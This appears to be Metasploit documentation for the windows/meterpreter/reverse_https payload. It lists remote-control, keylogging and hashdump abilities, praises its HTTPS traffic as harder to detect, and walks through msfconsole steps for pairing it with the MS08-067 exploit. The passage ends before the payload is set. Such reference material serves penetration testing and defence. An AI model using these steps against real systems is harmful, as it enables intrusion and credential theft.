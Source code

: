 windows/meterpreter/reverse_https is a unique Windows payload for Metasploit Framework. It
is capable of doing things like remotely control the file system, sniff, keylog, hashdump,
pivoting, run extensions, etc. But the real strength of this is the way it talks to the
attacker.

Instead of a stream-based communication model (tied to a specific TCP session), the stager
provides a packet-based transaction system instead. You know, kind of like a botnet that we
see today. The use of HTTPS also makes the payload communication a little bit harder to detect.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64
* Windows x86

## Deploying windows/meterpreter/reverse_https

windows/meterpreter/revese_https can be used in two different ways.

**As an exploit payload**

To check if windows/meterpreter/reverse_https is compatible with the exploit or not, first you can
use the ```info``` command on the exploit you want to use:

```
msf exploit(ms08_067_netapi) > info

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

...
```

If the platform field includes Windows, then you can use windows/meterpreter/reverse_https as the
payload.

Depending on the module, sometimes you have to select a specific target by first checking the
target list, like the following:

```
show targets
```

If there is a Windows target, use that:

```
set TARGET [index]
```

To actually set the payload:
